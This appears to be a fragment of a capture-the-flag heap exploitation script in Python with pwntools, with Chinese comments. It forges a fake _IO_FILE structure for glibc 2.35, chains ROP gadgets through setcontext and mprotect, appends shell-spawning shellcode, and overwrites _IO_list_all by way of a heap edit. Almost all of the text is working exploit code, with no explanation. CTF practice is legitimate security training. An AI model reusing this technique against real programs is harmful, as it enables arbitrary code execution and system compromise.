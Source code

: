 ```python
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
ls(hex(rax))
#shellcode_addr = fake_IO_addr + 248
## 0x0000000000090529 # pop rdx ; pop rbx ; ret
##pause()

fake_IO_addr = heap_base + 7200
ls('fake_IO_addr:'+hex(fake_IO_addr))
ls('libc_base:'+hex(libc_base))

fake_IO_FILE  = p64(8)
fake_IO_FILE += p64(RCE) # call # setcontext + 61 # libc2.35
fake_IO_FILE += p64(0) +p64(1) # _IO_write_base # _IO_write_ptr
fake_IO_FILE += p64(fake_IO_addr) # fp->_IO_write_ptr
fake_IO_FILE += p64(rdi) + p64(heap_base) + p64(rsi) + p64(0x21000) + p64(rdx) + p64(7) # pop*5 to me
fake_IO_FILE += p64(fake_IO_addr+0xc0)
fake_IO_FILE += p64(mprotect) # 也可以 read 
fake_IO_FILE += p64(fake_IO_addr + 248) # shellcode_addr
fake_IO_FILE  = fake_IO_FILE.ljust(0x90,b'\x00')
fake_IO_FILE += p64(fake_IO_addr+0x10)
fake_IO_FILE += p64(setcontext_rcx) # setcontext Tow CALL #need pop * 5 ;ret
fake_IO_FILE  = fake_IO_FILE.ljust(0xb0,b'\x00')
fake_IO_FILE += p64(1) # mode
fake_IO_FILE  = fake_IO_FILE.ljust(0xc8,b'\x00')
fake_IO_FILE += p64(_IO_wfile_jumps + 0x30)
fake_IO_FILE  = fake_IO_FILE.ljust(0xe0,b'\x00')
fake_IO_FILE += p64(fake_IO_addr)
fake_IO_FILE += asm(shellcraft.sh()) ## 根据实际情况看看需不需要
fake_IO_FILE += b'\n'
```

- 简洁一点

‍

```python
libc_base = mr - 2202848
_IO_list_all = libc_base +  libc.sym['_IO_list_all']
_IO_wfile_jumps = libc_base + libc.sym['_IO_wfile_jumps']
setcontext = libc_base + libc.sym['setcontext']


def dbg():
    ls(hex(mr))
    ls(hex(libc_base))
    ls(hex(_IO_list_all))
    ls(hex(heap_base))
    gdb.attach(io)

# 2352
pay = p64(mr) * 2
#pay += p64(heap_base + 2352)+p64(_IO_list_all-0x20)
pay += p64(_IO_list_all-0x20) * 2
pay += b'\n'
edit(1,pay)
##pause()
add(6,0x538)




```